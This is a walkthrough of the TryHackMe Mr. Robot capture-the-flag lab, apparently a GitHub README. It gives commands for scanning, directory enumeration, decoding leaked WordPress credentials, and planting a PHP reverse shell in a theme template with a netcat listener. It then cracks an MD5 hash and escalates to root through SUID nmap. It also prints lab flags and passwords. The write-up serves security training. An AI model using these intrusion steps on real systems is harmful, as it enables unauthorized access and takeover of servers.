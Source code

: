 # Mr. Robot CTF Walkthrough

## Introduction
This is a walkthrough for the **Mr. Robot CTF** challenge from TryHackMe. In this guide, we will go through the steps to exploit a vulnerable machine and capture all three keys.

![Intro Image]()

---

## Steps to Complete the Challenge

### 1. Deploy the Machine
- Start the **Mr. Robot** machine on TryHackMe.
- Get the target IP address (e.g., `10.10.134.44`).

### 2. Inspect the Website
- Visit `http://10.10.134.44/`.
- Check the page source code. There is an ASCII-style comment in the HTML.

```html
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
```
- The site contains references to the **Mr. Robot** TV show, but nothing useful for exploitation.

![Easteregg Image]()

### 3. Scan for Open Ports
- Run `nmap` to scan the target:
  ```bash
  nmap 10.10.134.44 -sV -T4 -oA nmap-scan -open
  ```
- Results:
  - **80/tcp open** (Apache httpd web server)

### 4. Enumerate Directories
- Use **gobuster** to find hidden directories:
  ```bash
  gobuster dir -u http://10.10.134.44 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  ```
- Interesting results:
  - `/blog/`
  - `/wp-login/` (WordPress login page)
  - `/robots.txt` (contains file listings)
  - `/license` (contains a Base64 encoded string)

### 5. Inspect robots.txt
- Visit `http://10.10.134.44/robots.txt`
- Files listed:
  - `fsocity.dic`
  - `key-1-of-3.txt`
- Get the first key: `http://10.10.134.44/key-1-of-3.txt`
  ```bash
  curl http://10.10.134.44/key-1-of-3.txt
  ```
  **First Key:** `073403c8a58a1f80d943455fb30724b9`

### 6. WordPress Login Brute Force
- Get the dictionary file from `fsocity.dic`:
  ```bash
  curl -O http://10.10.134.44/fsocity.dic
  ```

 In this directory http://10.10.134.44/license by inspecting source code we find a base64 string:
   ```ZWxsaW90OkVSMjgtMDY1Mgo=```

 If we go to https://gchq.github.io/CyberChef/ we can decode it from Base64, and we get a pair of credentials that might be useful somewhere

- Check `/license` for credentials:
  ```bash
  curl http://10.10.134.44/license
  ```
- Decode Base64 string `ZWxsaW90OkVSMjgtMDY1Mgo=`:
  ```bash
  echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
  ```
  - **Username:** `elliot`
  - **Password:** `ER28-0652`
- Login at `http://10.10.134.44/wp-login.php`
 
 Login and Success! Its an admin user.

### 7. Gain a Reverse Shell

And we are in! So now we can try to set up a reverse shell and get our first foothold on the server:
 
Get Revershell code from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php set it up on the 404.php template or  Twenty Fifteen: Stylesheet (style.css)

- Upload a PHP reverse shell using **404.php** or **style.css**.
  ```php
  $ip = 'YOUR_IP';
  $port = 1234;
  ```
- Start a Netcat listener:
  ```bash
  nc -lnvp 1234
  ```
- Trigger the shell by visiting:
  ```
  http://10.10.134.44/wp-content/themes/twentyfifteen/404.php
  ```
- Shell received! 🎉

### 8. Enumerate the File System
- Navigate to `robot` user’s home directory:
  ```bash
  cd /home/robot
  ls
  ```
- Files found:
  - `key-2-of-3.txt` (permission denied)
  - `password.raw-md5`
- Crack MD5 hash:
  ```bash
  echo 'c3fcd3d76192e4007dfb496cca67e13b' | crackstation
  ```
  - **Password:** `abcdefghijklmnopqrstuvwxyz`

### 9. Get Second Key
- Switch user:
  ```bash
  su robot
  ```
- Password: `abcdefghijklmnopqrstuvwxyz`
- Read the second key:
  ```bash
  cat key-2-of-3.txt
  ```
- **Second Key:** 🎯

### 10. Privilege Escalation to Root
- Check for **SUID binaries**:
  ```bash
  find / -perm -u=s -type f 2>/dev/null
  ```
- Use `nmap` interactive mode exploit:
  ```bash
  nmap --interactive
  !sh
  ```
- Gain root access! 🎉
- Get the final key:
  ```bash
  cat /root/key-3-of-3.txt
  ```

---

## Conclusion
By following these steps, we successfully gained access to the Mr. Robot CTF machine and captured all three flags! 🏆

**References:**
- [TryHackMe - Mr. Robot Room](https://tryhackme.com/room/mrrobot)
- [Pentest Monkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Medium 1](https://medium.com/@cspanias/thms-mr-robot-ctf-walkthrough-2023-55ca5c19fbaf)
- [Medium 2](https://medium.com/azkrath/tryhackme-walkthrough-mr-robot-ctf-9e9eecd2036)
- [YouTube](https://youtu.be/BQ4xeeNAbaw)

Happy hacking! 🕵️‍♂️💻


Badge Obtained:

![Badge Image]()